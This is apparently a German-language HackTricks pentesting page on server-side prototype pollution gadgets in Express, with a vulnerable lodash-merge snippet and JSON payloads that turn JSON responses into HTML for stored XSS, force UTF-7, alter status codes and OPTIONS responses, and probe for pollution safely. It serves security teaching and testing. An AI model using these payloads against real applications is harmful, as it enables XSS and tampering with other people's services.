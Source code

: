 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## XSS-Antworten bereitstellen

**Für weitere Details** [**sehen Sie sich die ursprüngliche Forschung an**](https://portswigger.net/research/server-side-prototype-pollution)

### Ändern Sie den JSON-Inhaltstyp in HTML

In einer Express-App, die eine **JSON-Inhaltstyp-Antwort** verwendet und ein JSON widerspiegelt:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
In diesen Fällen ist XSS normalerweise nicht mit einem JSON-Inhaltstyp möglich. Mit Prototype Pollution können wir jedoch **Express verwirren, um eine HTML-Antwort bereitzustellen.** Diese Schwachstelle beruht darauf, dass die Anwendung **`res.send(obj)`** verwendet und den Body-Parser mit dem Inhaltstyp application/json nutzt.
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
Durch das **Verschmutzen** der **`body`** und **`_body`** Eigenschaften ist es möglich, **Express dazu zu bringen, den HTML-Inhaltstyp bereitzustellen** und die `_body`-Eigenschaft widerzuspiegeln, was zu gespeichertem XSS führt.

### UTF7 rendern

Es ist möglich, dass Express **UTF-7-Inhalt rendert mit**:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Sichere Scanning-Techniken

### JSON-Räume

Die folgende PP wird Attribute innerhalb eines JSON einen zusätzlichen Raum geben, der die Funktionalität nicht beeinträchtigt:
```json
{"__proto__":{"json spaces": " "}}
```
Dann sieht ein reflektiertes JSON so aus:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

Das folgende PP-Gadget wird den Server dazu bringen, den HTTP-Header zurückzusenden: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
Es erfordert, dass das **CORS-Modul installiert ist**

### **OPTIONS-Methode**

Mit dem folgenden Payload ist es möglich, eine **Methode aus einer OPTIONS-Antwort zu verbergen**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **Status**

Es ist möglich, den **zurückgegebenen Statuscode** mit dem folgenden PP-Payload zu ändern:
```json
{"__proto__":{"status":510}}
```
### Fehler

Wenn Sie einem Prototypen mit einem primitiven Wert wie einem String zuweisen, erzeugt dies eine **no-op-Operation, da der Prototyp ein Objekt sein muss**. Wenn Sie versuchen, ein Prototypobjekt dem `Object.prototype` selbst zuzuweisen, wird dies **eine Ausnahme auslösen**. Wir können diese beiden Verhaltensweisen nutzen, um **festzustellen, ob die Prototypverschmutzung erfolgreich war**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

Wenn eine Anwendung ein Objekt in ihrer Antwort enthält, kann das Erstellen eines Attributs mit einem **ungewöhnlichen Namen neben `__proto__`** aufschlussreich sein. Insbesondere wenn **nur das ungewöhnliche Attribut in der Antwort zurückgegeben wird**, könnte dies auf die Verwundbarkeit der Anwendung hinweisen:
```json
{"unusualName":"value","__proto__":"test"}
```
Darüber hinaus bietet in Szenarien, in denen eine Bibliothek wie Lodash verwendet wird, das Setzen einer Eigenschaft sowohl über Prototype Pollution (PP) als auch direkt im Objekt einen weiteren diagnostischen Ansatz. Wenn eine solche Eigenschaft aus der Antwort weggelassen wird, deutet dies darauf hin, dass Lodash die Existenz der Eigenschaft im Zielobjekt überprüft, bevor es zusammenführt:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Erlaube Punkte

Es gibt eine Option in Express, die es dir ermöglicht, **Objekte aus Abfragezeichenfolgenparametern** zu **erstellen**.\
Du könntest es definitiv in einer Fehler **Kette** verwenden, um eine **Prototype Pollution-Sicherheitsanfälligkeit** auszunutzen.
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` erstellt ein Objekt in Node.**

## Referenzen

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
